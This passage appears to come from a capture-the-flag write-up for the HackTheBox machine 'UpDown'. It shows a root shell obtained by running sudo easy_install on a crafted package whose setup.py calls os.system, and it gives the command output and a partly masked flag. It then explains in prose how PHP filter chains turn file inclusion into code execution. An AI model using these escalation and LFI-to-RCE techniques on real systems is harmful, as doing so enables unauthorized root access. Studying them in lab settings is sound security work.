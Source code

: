 

In this case, I'm just having it import the os module and call
`os.system` to run a Bash shell.

Now I just call `easy_install` pointing to that directory:



    developer@updown:/tmp/0xdf$ sudo easy_install /tmp/0xdf/
    WARNING: The easy_install command is deprecated and will be removed in a future version.
    Processing 
    Writing /tmp/0xdf/setup.cfg
    Running setup.py -q bdist_egg --dist-dir /tmp/0xdf/egg-dist-tmp-ObdjVa
    root@updown:/tmp/0xdf# id
    uid=0(root) gid=0(root) groups=0(root)



And read `root.txt`:



    root@updown:~# cat root.txt
    a608663c************************



## Beyond Root - LFI2RCE via PHP Filters

### Background

There's a really nice method for turning an LFI into RCE using PHP
filters. As far as I know, this was first posted
[here](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters)
and HackTricks based on [this CTF writeup from
loknop](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d),
and later Synacktiv published an awesome [blog
post](https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it.md)
and a [script
POC](https://github.com/synacktiv/php_filter_chain_generator).

At a high level, this works by passing text into various PHP filters.
PHP filters are meant to read some resource and then apply some filter
to it (like base64 encode / decode or converting text format).

The author of this attack figured out how to pass even an empty string
into a long chain of filters to produce any output on the page the user
wants. And if this is PHP output, because it's in an `include`, then it
will be executed.

Updated to add a [video](https://www.youtube.com/watch?v=TnLELBtmZ24) I
did on this technique:


# ایک خرابی پیش آ گئی۔ {#ایک-خرابی-پیش-آ-گئی .message}

[اس ویڈیو کو www.youtube.com پر دیکھنے کی کوشش
کریں](https://www.youtube.com/watch?v=TnLELBtmZ24){target="_blank"} یا
اگر آپ کے براؤزر میں JavaScript غیر فعال ہے تو اسے فعال کریں۔
